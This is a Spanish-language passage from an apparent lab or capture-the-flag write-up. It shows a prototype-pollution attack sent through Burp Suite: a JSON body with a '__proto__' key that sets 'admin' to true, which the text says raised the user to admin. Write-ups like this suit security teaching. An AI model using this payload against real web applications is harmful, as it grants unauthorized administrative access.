 Explicación:  al recibir un 'Status Code 302' vemos que se esta tramitando correctamente la petición, por lo que podemos continuar a ejecutar un *Prototype Polution*


Acción: mandamos el siguiente payload para contaminar el prototipo y setearnos como admin

```bash
{

	"email": "test@test.com",

	"msg": "Hola esto es una prueba",

"__proto__":  {

"admin": true}

}
```

Resultado:

![Captura](./Imágenes/burpsuite_1.png)

![Captura](./Imágenes/burpsuite_2.png)

Explicación: al enviar el payload vemos que de nuevo tenemos un 'Follow redirection' el cual si pinchamos y vamos a la pestaña de 'Render' vemos que efectivamente elevamos nuestros privilegios a 'Admin'

---
